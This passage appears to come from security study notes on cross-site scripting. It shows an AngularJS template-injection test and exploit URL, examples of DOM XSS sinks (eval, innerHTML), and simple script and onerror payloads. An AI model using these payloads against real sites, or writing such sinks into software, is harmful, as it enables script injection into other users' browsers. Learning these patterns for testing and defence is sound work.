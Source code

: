 **Test**

```sh
https://example.com/?search=%7B%7B1%2B1%7D%7D # ?search={{1+1}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for '2'</h1>
<!-- something -->
</body>
```

**Exploit**

```sh
https://example.comnet/?search=%7B%7B%24on.constructor%28%27alert%281%29%27%29%28%29%7D%7D
# ?search={{$on.constructor('alert(1)')()}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for ''</h1>
<!-- something -->
</body>
```

### Reflected/Stored DOM XSS

If a script reads data from a URL and writes it to a dangerous sink, the vulnerability is client-side with no server processing.

* **Reflected DOM** vulnerabilities happen when the server processes and echoes data from a request, and a script on the page handles this data unsafely, writing it to a dangerous sink.

```javascript
eval('var data = "reflected string"');
```

* In a **stored DOM XSS** vulnerability, the server stores data from one request and includes it in a later response. A script in the later response processes this data unsafely in a sink.

```javascript
element.innerHTML = comment.author
```

## XSS contexts

### Between HTML tags

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

{{< hint style=notes >}}
**Note**: understand how a payload works
